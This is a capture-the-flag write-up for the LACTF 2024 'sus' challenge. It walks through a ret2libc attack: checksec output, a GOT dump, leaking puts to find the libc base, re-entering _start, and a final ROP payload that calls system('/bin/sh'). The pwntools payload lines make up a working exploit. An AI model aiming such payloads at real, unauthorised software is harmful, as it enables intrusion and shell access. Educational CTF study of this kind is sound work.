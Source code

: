 # sus

rop2libc

## checksec

```bash
[*] '/mnt/d/CTFs/LACTF 2024/sus/sus_patched'
    Arch:     amd64-64-little
    RELRO:    Partial RELRO
    Stack:    No canary found
    NX:       NX enabled
    PIE:      No PIE (0x3ff000)
    RUNPATH:  b'.'
```

NX enabled, so we cannot write our own shell code in the buffer

While the executable has no PIE, system-wide ASLR will still be applied to libc. Thus, unless system-wide ASLR is disabled (or we can find the pieces for our ROP chain to get the flag entirely from within the binary), we will need to find the base address of libc. 

## Dumping the GOT with gef

The GOT can be dumped with gef with the command `got` as follows

```bash
gef➤  got

GOT protection: Partial RelRO | GOT functions: 3

[0x404000] puts@GLIBC_2.2.5  →  0x401036
[0x404008] setbuf@GLIBC_2.2.5  →  0x401046
[0x404010] gets@GLIBC_2.2.5  →  0x401056
```

which tells us that we can extract the address of the libc `puts` at runtime by passing the pointer 0x404000 as the first argument into `puts`. 

More specifically, the little endian representation of the libc `puts` address will always end with two null bytes, and that is why `puts` will print it out in its entirety. If we get unlucky and ASLR randomizes `puts` to an address that contains a null byte (highly unlikely), then we simply need to try again. 

## Leaking the Base Address of libc

By tinkering around with the executable with a DeBrujin sequence, we realize that part of our buffer (specifically 56 bytes from the start) is written into rdi. 

We are thus able to stick the address of the GOT for `puts` into rdi. 

To leak the libc address of `puts`, we simply need to call `puts` with the first argument (rdi) set as such. Therefore, we need to overwrite the return address with the address of `puts@plt`. 

The return address is 72 bytes from the start of the buffer (using again a DeBrujin sequence), so the payload is as follows

```python
b'A'*56 + p64(exe.got.puts) + b'A'*8 + p64(exe.symbols.puts)
```

We should note that `exe.symbols.puts` in pwntools is the same as `exe.symbols.plt.puts` since pwntools pulls PLT entries from the .plt.sec section. 

The libc base address can then be done by substracting the offset from base of `puts` in the libc of the pwn environment from the leaked address, as follows

```python
libc.address = u64(r.recvline().strip().ljust(8,b'\x00')) - libc.symbols.puts
```

Note that the base address of libc should always end in 000 because libc is aligned to a page, and the size of a page is 0x1000. 

## Reopening the Attack Vector

On one run of the executable, we are only allowed to send one payload. Thus, to reopen the attack vector, we need to call `_start()` so that we can inject another payload after leaking the address of libc. 

The first payload therefore is

```python
b'A'*56 + p64(exe.got.puts) + b'A'*8 + p64(exe.symbols.puts) + p64(exe.symbols._start)
```

## Final Payload

Our objective is to get the program to run `exec('/bin/sh')`, so all we need to do is to load the `/bin/sh` string into rdi (loading into rdi was already shown earlier), and call the `system` function in libc using the leaked libc base address. 

The final payload thus is 

```python
b'A'*56 + p64(next(libc.search(b'/bin/sh'))) + b'A'*8 + p64(ret) + p64(libc.symbols.system)
```

Note that the `ret` gadget is a simple one-instruction return gadget for the purpose of aligning `rsp` to the 16-byte boundary during the call to `system`. 